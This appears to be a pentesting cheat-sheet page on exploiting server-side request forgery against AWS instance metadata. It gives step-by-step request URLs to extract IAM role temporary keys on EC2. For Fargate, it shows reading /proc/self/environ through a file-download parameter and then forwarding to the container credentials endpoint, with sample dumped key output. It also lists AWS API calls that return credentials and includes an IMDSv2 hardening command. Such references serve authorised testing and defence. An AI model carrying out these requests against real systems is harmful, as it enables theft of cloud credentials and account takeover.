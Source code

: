 # AWS - Metadata SSRF

> AWS released additional security defences against the attack.

:warning: Only working with IMDSv1.
Enabling IMDSv2 : `aws ec2 modify-instance-metadata-options --instance-id <INSTANCE-ID> --profile <AWS_PROFILE> --http-endpoint enabled --http-token required`.

In order to use **IMDSv2** you must provide a token.

```powershell
export TOKEN=`curl -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" "http://169.254.169.254/latest/api/token"`
curl -H "X-aws-ec2-metadata-token:$TOKEN" -v "http://169.254.169.254/latest/meta-data"
```


## Method for Elastic Cloud Compute (EC2)

Amazon provides an internal service that allows every EC2 instance to query and retrieve metadata about the host. If you discover an SSRF vulnerability running on an EC2 instance, try to fetch the content from 169.254.169.254.

1. Access the IAM : [http://169.254.169.254/latest/meta-data/](http://169.254.169.254/latest/meta-data/)
    ```powershell
    ami-id
    ami-launch-index
    ami-manifest-path
    block-device-mapping/
    events/
    hostname
    iam/
    identity-credentials/
    instance-action
    instance-id
    ```
2. Find the name of the role assigned to the instance : [http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)
3. Extract the role's temporary keys : [http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM_USER_ROLE_HERE>/](http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM_USER_ROLE_HERE>/)
    ```powershell
    {
    "Code" : "Success",
    "LastUpdated" : "2019-07-31T23:08:10Z",
    "Type" : "AWS-HMAC",
    "AccessKeyId" : "ASIAREDACTEDXXXXXXXX",
    "SecretAccessKey" : "XXXXXXXXXXXXXXXXXXXXXX",
    "Token" : "AgoJb3JpZ2luX2VjEDU86Rcfd/34E4rtgk8iKuTqwrRfOppiMnv",
    "Expiration" : "2019-08-01T05:20:30Z"
    }
    ```


## Method for Container Service (Fargate)

1. Fetch the AWS_CONTAINER_CREDENTIALS_RELATIVE_URI variable from https://awesomeapp.com/download?file=/proc/self/environ
    ```powershell
    JAVA_ALPINE_VERSION=8.212.04-r0
    HOSTNAME=bbb3c57a0ed3SHLVL=1PORT=8443HOME=/root
    AWS_CONTAINER_CREDENTIALS_RELATIVE_URI=/v2/credentials/d22070e0-5f22-4987-ae90-1cd9bec3f447
    AWS_EXECUTION_ENV=AWS_ECS_FARGATEMVN_VER=3.3.9JAVA_VERSION=8u212AWS_DEFAULT_REGION=us-west-2
    ECS_CONTAINER_METADATA_URI=http://169.254.170.2/v3/cb4f6285-48f2-4a51-a787-67dbe61c13ffPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/jvm/java-1.8-openjdk/jre/bin:/usr/lib/jvm/java-1.8-openjdk/bin:/usr/lib/mvn:/usr/lib/mvn/binLANG=C.UTF-8AWS_REGION=us-west-2Tag=48111bbJAVA_HOME=/usr/lib/jvm/java-1.8-openjdk/jreM2=/usr/lib/mvn/binPWD=/appM2_HOME=/usr/lib/mvnLD_LIBRARY_PATH=/usr/lib/jvm/java-1.8-openjdk/jre/lib/amd64/server:/usr/lib/jvm/java-1.8-openjdk/jre/lib/amd64:/usr/lib/jvm/java-1.8-openjd
    ```
2. Use the credential URL to dump the AccessKey and SecretKey : https://awesomeapp.com/forward?target=http://169.254.170.2/v2/credentials/d22070e0-5f22-4987-ae90-1cd9bec3f447
    ```powershell
    {
        "RoleArn": "arn:aws:iam::953574914659:role/awesome-waf-role",
        "AccessKeyId": "ASIAXXXXXXXXXX",
        "SecretAccessKey": "j72eTy+WHgIbO6zpe2DnfjEhbObuTBKcemfrIygt",
        "Token": "FQoGZXIvYXdzEMj/////...jHsYXsBQ==",
        "Expiration": "2019-09-18T04:05:59Z"
    }
    ```


## AWS API calls that return credentials

- [chime:createapikey](https://docs.aws.amazon.com/service-authorization/latest/reference/list_amazonchime.html)
- [codepipeline:pollforjobs](https://docs.aws.amazon.com/codepipeline/latest/APIReference/API_PollForJobs.html)
- [cognito-identity:getopenidtoken](https://docs.aws.amazon.com/cognitoidentity/latest/APIReference/API_GetOpenIdToken.html)
- [cognito-identity:getopenidtokenfordeveloperidentity](https://docs.aws.amazon.com/cognitoidentity/latest/APIReference/API_GetOpenIdTokenForDeveloperIdentity.html)
- [cognito-identity:getcredentialsforidentity](https://docs.aws.amazon.com/cognitoidentity/latest/APIReference/API_GetCredentialsForIdentity.html)
- [connect:getfederationtoken](https://docs.aws.amazon.com/connect/latest/APIReference/API_GetFederationToken.html)
- [connect:getfederationtokens](https://docs.aws.amazon.com/connect/latest/APIReference/API_GetFederationToken.html)
- [ecr:getauthorizationtoken](https://docs.aws.amazon.com/AmazonECR/latest/APIReference/API_GetAuthorizationToken.html)
- [gamelift:requestuploadcredentials](https://docs.aws.amazon.com/gamelift/latest/apireference/API_RequestUploadCredentials.html)
- [iam:createaccesskey](https://docs.aws.amazon.com/IAM/latest/APIReference/API_CreateAccessKey.html)
- [iam:createloginprofile](https://docs.aws.amazon.com/IAM/latest/APIReference/API_CreateLoginProfile.html)
- [iam:createservicespecificcredential](https://docs.aws.amazon.com/IAM/latest/APIReference/API_CreateServiceSpecificCredential.html)
- [iam:resetservicespecificcredential](https://docs.aws.amazon.com/IAM/latest/APIReference/API_ResetServiceSpecificCredential.html)
- [iam:updateaccesskey](https://docs.aws.amazon.com/IAM/latest/APIReference/API_UpdateAccessKey.html)
- [lightsail:getinstanceaccessdetails](https://docs.aws.amazon.com/lightsail/2016-11-28/api-reference/API_GetInstanceAccessDetails.html)
- [lightsail:getrelationaldatabasemasteruserpassword](https://docs.aws.amazon.com/lightsail/2016-11-28/api-reference/API_GetRelationalDatabaseMasterUserPassword.html)
- [rds-db:connect](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)
- [redshift:getclustercredentials](https://docs.aws.amazon.com/redshift/latest/APIReference/API_GetClusterCredentials.html)
- [sso:getrolecredentials](https://docs.aws.amazon.com/singlesignon/latest/PortalAPIReference/API_GetRoleCredentials.html)
- [mediapackage:rotatechannelcredentials](https://docs.aws.amazon.com/mediapackage/latest/apireference/channels-id-credentials.html)
- [mediapackage:rotateingestendpointcredentials](https://docs.aws.amazon.com/mediapackage/latest/apireference/channels-id-ingest_endpoints-ingest_endpoint_id-credentials.html)
- [sts:assumerole](https://docs.aws.amazon.com/cli/latest/reference/sts/assume-role.html)
- [sts:assumerolewithsaml](https://docs.aws.amazon.com/cli/latest/reference/sts/assume-role-with-saml.html)
- [sts:assumerolewithwebidentity](https://docs.aws.amazon.com/cli/latest/reference/sts/assume-role-with-web-identity.html)
- [sts:getfederationtoken](https://docs.aws.amazon.com/cli/latest/reference/sts/get-federation-token.html)
- [sts:getsessiontoken](https://docs.aws.amazon.com/cli/latest/reference/sts/get-session-token.html)


## References

* [AWS API calls that return credentials - kmcquade](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)
* [Cloud security instance metadata - PumaScan - Eric Johnson - 09 Oct 2019](https://pumascan.com/resources/cloud-security-instance-metadata/)
* [Getting started with Version 2 of AWS EC2 Instance Metadata service (IMDSv2) - Sunesh Govindaraj - Nov 25, 2019](https://blog.appsecco.com/getting-started-with-version-2-of-aws-ec2-instance-metadata-service-imdsv2-2ad03a1f3650)
* [Privilege escalation in the Cloud: From SSRF to Global Account Administrator - Maxime Leblanc - Sep 1, 2018](https://medium.com/poka-techblog/privilege-escalation-in-the-cloud-from-ssrf-to-global-account-administrator-fd943cf5a2f6)
* [Getting shell and data access in AWS by chaining vulnerabilities - Riyaz Walikar - Aug 29, 2019 ](https://blog.appsecco.com/getting-shell-and-data-access-in-aws-by-chaining-vulnerabilities-7630fa57c7ed)